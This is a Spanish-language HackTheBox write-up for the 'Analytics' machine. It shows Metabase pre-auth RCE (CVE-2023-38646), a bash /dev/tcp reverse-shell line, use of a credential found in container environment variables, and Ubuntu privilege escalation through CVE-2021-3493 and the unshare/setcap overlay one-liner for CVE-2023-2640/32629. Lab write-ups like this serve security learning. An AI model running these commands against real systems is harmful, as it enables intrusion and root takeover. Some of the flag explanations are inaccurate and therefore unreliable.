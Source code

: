 # Analytics

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo enumeración web basica y busqueda de exploits para ciertas versiones de diversas cosas que veremos en la actividad.

- Plataforma: HackTheBox
- Dificultad: Easy
- OS: Linux
- IP: 10.10.11.233

- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/613ad81c-f162-468e-b0f9-1d120b39975c)

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/17a42111-3161-468d-8227-2052895d5a2d)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e2d15162-9fba-4c16-a524-b1400ce402af)

- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties
 
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b07035b-5a06-4183-bbb1-1b6106820cd5)

- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c9c14f20-4e6f-4f74-b1ec-5e5c9242178f)

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb724431-cd72-4681-9480-33c8ce550d44)

Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b455954-d0eb-4581-871e-ca2e09ef1c18)

- Y estamos dentro :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0b5c1204-5002-4cc9-93ec-087375f8058d)

- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/09fdd2c5-5ee5-4569-a0dd-474e78ccaace)

- Por lo que decidí revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b451245a-c596-4740-a012-24bfd65c5a7c)

- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:

 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/70a88eb6-22a8-41d5-b2a3-5ec1ac98a25d)

  - Primera flag :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/55354378-feea-4495-b996-13a22d06b0a8)


***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c095b34-77bb-42b2-8f3e-a6befcd69847)

  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1071f439-186e-4232-a04f-a1dc4eb31d7a)

- Y somos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f529e177-aca6-4e4f-a41e-1df31901ddc5)

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa089137-e5e2-448f-b17f-e8d44e02b9e8)

**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
